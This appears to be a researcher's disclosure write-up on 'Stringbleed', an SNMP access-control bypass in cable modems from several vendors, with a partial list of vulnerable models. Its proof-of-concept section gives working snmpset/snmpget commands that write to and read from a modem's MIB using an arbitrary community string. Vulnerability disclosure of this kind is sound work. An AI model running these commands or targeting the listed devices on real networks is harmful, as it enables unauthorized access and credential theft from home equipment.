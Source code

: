 Now you have the idea about what the issue is, but probably you´re thinking .. well …are there more devices affected by the same issue in the internet??? The answer is yes, we can prove that other devices from different vendors/brands are also affected by the same behavior in SNMP, this proves also that the technicolor answer is wrong, completely wrong….

# We call it STRINGBLEED :-D

We decided to scan again but this generating not specific human-readable strings, we decided to generate a random hash value and send it to all SNMP devices in the internet and the results are shocking, at this point we have detected more than 150 unique fingerprints affected by stringbleed,

In order to have an idea, we are releasing the first 50 batch which demonstrate that technicolor answer is wrong, the issue is not ISP misconfiguration, the problem seems to be in the code.
Conclusions

    We discovered a full remote actions execution bypassing the control access in SNMP using any string/integer value
    You can write strings in the MIB
    You can retrieve easily password and other sensitive information without the need to guess the community string.
    The bug is difficult to solve since several vendors/brands are affected and the list growing everyday thanks to our scans
    Technicolor resolutions lacks of technical analysis and according our results is unacceptable

# PoC [Attack Vectors]: Community string

IP of theoric cablemodems vulnerable:"192.168.0.1"
 ```
[usr@pwn:~$] snmpset -v 1 -c "#Stringbleed" 192.168.0.1 1.3.6.1.2.1.1.6.0 s "test" 

iso.3.6.1.2.1.1.6.0 = STRING: "test"
 ```
  ```
[usr@pwn:~$] snmpget -v 1 -c "#Stringbleed" 192.168.0.1 iso.3.6.1.2.1.1.1.0 

iso.3.6.1.2.1.1.1.0 = STRING: "Cisco DPC3928SL DOCSIS 3.0 1-PORT Voice Gateway <<HW_REV: 1.0; VENDOR: Cisco; BOOTR: 2.4.0; SW_REV: D3928SL-P15-13-A386-c3420r55105-160127a; MODEL: DPC3928SL>>"
 ```
 
# Vulnerable 

* 5352
* BCW700J
* BCW710J
* BCW710J2
* C3000-100NAS
* CBV734EW
* CBV38Z4EC
* CBV38Z4ECNIT
* CBW383G4J
* CBW38G4J
* CBW700N
* CG2001-AN22A
* CG2001-UDBNA
* CG2001-UN2NA
* CG2002
* CG2200
* CGD24G-100NAS
* CGD24G-1CHNAS
* CM5100
* CM5100-511
* CM-6300n
* DCX-3200